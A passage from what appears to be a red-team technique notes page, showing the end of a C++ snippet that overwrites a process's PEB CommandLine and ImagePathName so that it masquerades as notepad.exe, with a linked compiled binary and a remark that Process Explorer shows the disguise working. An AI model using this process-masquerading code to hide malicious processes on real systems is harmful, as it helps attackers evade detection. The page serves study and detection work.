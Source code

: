 ```cpp
	HINSTANCE ntdll;
	MYPROC GetProcessInformation;
	wchar_t commandline[] = L"C:\\windows\\system32\\notepad.exe";
	ntdll = LoadLibrary(TEXT("Ntdll.dll"));

	//resolve address of NtQueryInformationProcess in ntdll.dll
	GetProcessInformation = (MYPROC)GetProcAddress(ntdll, "NtQueryInformationProcess");

	//get _PEB object
	(GetProcessInformation)(h, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);

	//replace commandline and imagepathname
	ProcessInformation.PebBaseAddress->ProcessParameters->CommandLine.Buffer = commandline;
	ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;

	return 0;
}
```
{% endtab %}
{% endtabs %}

{% file src="../../.gitbook/assets/pebmasquerade.exe" caption="pebmasquerade.exe" %}

..and here is the compiled running program being inspected with ProcExplorer - we can see that the masquerading is achieved successfully:

![](../../.gitbook/assets/screenshot-from-2018-10-23-23-36-52.png)
